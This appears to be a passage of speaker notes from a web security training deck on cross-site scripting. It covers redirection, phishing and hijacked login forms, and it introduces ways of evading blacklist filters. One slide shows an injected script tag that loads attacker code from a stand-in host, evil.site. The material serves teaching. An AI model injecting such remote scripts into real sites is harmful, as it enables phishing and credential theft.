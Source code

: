 Note:

57




The JavaScript shown above instructs the browser to change the location it is displaying. In this example, the location changes to otherpage.html. However, the location can be any page or site on the Internet.

Using redirection, an attacker can control where on the Internet a user is visiting. Phishing sites use this type of an attack, by having the victim visit the actual trusted site (which happens to be vulnerable to XSS), and then redirecting the user to a different site. 

Note that if we are able to inject redirection code, we can inject code that changes where a user's login form is submitted. The user could actually be at their bank's web site, but because it is vulnerable to XSS, instead of submitting the form to the bank it actually submits it to the attacker's web site. 

---



External Scripts


- Example show injecting scripts directly
	- Small scripts work but are limited by the size of the input
- Loading remote scripts allows us to include premade attacks
- It is simple to load a remote file
	<script src="http://evil.site/bad.js">  
</script>

Note:

58




All of the examples we've discussed so far today are small script injections. The entire script can be loaded into an input field. However, it's hard to do really malicious things with 100 characters. JavaScript solves that problem for us, by giving us the ability to load a script from a remote site. 

---



Evasion


- It is more common now for sites to filter input
- Typically this is done by blacklisting strings
- Trivial to bypass in most cases
- Here are some examples of evasion techniques

Note:

59



